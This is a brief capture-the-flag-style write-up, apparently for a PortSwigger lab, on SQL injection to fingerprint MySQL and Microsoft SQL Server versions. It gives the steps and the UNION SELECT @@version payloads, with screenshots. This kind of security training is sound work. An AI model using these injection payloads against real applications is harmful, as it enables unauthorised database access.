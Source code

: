 ## Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft

## Step 1

Check number of column

<img src="Portswigger-Writeups/Images/ps1.png" width="400" height="200">

## Step 2

Check in which column we can insert

<img src="Portswigger-Writeups/Images/ps2.png" width="400" height="200">

Here we are able to insert in both column

<img src="Portswigger-Writeups/Images/ps3.png" width="400" height="200">

## Step 3

Now we use this payload

' UNION SELECT @@version--

Modify query to

' UNION SELECT @@version,NULL#

Or

' UNION SELECT NULL,@@version#

Encode it to URL

<img src="Portswigger-Writeups/Images/ps4.png" width="400" height="200">

And we have the answer

<img src="Portswigger-Writeups/Images/ps5.png" width="400" height="200">

---
